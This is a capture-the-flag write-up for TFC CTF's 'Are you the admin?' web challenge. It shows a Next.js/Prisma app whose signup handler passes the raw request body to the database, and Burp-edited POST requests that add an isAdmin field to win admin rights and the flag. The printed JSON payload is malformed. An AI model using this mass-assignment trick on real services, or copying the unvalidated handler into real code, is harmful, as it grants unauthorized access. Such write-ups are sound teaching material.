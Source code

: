 # TFC CTF

## WEB

### ARE YOU THE ADMIN?

**Difficulty:** Easy

**Statement:** Do you have what it takes to be the admin?

***

The challenge provides us with the following source code : `index.tsx`

```tsx
import type { GetServerSideProps, NextPage } from "next";
import type { User } from "@prisma/client";
import { prisma } from "../globals/prisma";
import { useState } from "react";
import { useRouter } from "next/router";

type Props = {
  users: (User &
    (
      | {
          flag: string;
          isAdmin: true;
        }
      | {
          flag?: never;
          isAdmin: false;
        }
    ))[];
};

const Home: NextPage<Props> = ({ users }) => {
  const [username, setUsername] = useState("");

  const router = useRouter();

  const create = async () => {
    await fetch("/api/auth", {
      headers: {
        "Content-Type": "application/json",
      },
      method: "POST",
      body: JSON.stringify({
        username,
      }),
    });
    await router.replace(router.asPath);
  };

  return (
    <div>
      <div>Create user:</div>
      <input
        value={username}
        onChange={(event) => setUsername(event.target.value)}
      />
      <button onClick={create}>Create</button>
      <div>Users:</div>
      {users.map((user) => (
        <div key={user.id}>
          <div>Username: {user.username}</div>
          <div>Is admin? {user.isAdmin ? "yes" : "no"}</div>
          {user.isAdmin && <div>{user.flag}</div>}
        </div>
      ))}
    </div>
  );
};

export default Home;

export const getServerSideProps: GetServerSideProps<Props> = async (
  context
) => {
  const users = (await prisma.user.findMany()) as Props["users"];

  for (const user of users) {
    if (user.isAdmin) {
      user.flag = process.env.FLAG!;
    }
  }

  return {
    props: {
      users,
    },
  };
};
```

The file `auth.ts`:
```ts
import { NextApiRequest, NextApiResponse } from "next";
import { prisma } from "../../globals/prisma";

export default async function handler(
  req: NextApiRequest,
  res: NextApiResponse
) {
  const body = req.body;
  await prisma.user.create({
    data: body,
  });
  return res.status(200).end();
```

And the file 
```prisma
generator client {
  provider = "prisma-client-js"
}

datasource db {
  provider = "sqlite"
  url      = "file:./app.db"
}

model User {
  id       String  @id @default(uuid())
  username String
  isAdmin  Boolean @default(false)
}
```

Thanks to the source code made available, we can see that it is possible to add the value `isAdmin` with the value `true` in order to authenticate with administrator rights.

When visiting the website and creating a user, the following information is returned:

![image](https://user-images.githubusercontent.com/49941629/182031138-28323457-4a7c-4c20-890c-2ad70b254c66.png)

With the Burp Suite tool, I will modify the POST request to add `isAdmin` value for get the flag!

Default POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii"}
```

Modified POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii","isAdmin:true}
```

The website get back :

![image](https://user-images.githubusercontent.com/49941629/182031839-013d5fe2-da5f-42e3-9a4e-9beba9a4e190.png)

Flag: TFCCTF{S4n1t1z3_Y0ur_1nput5!}
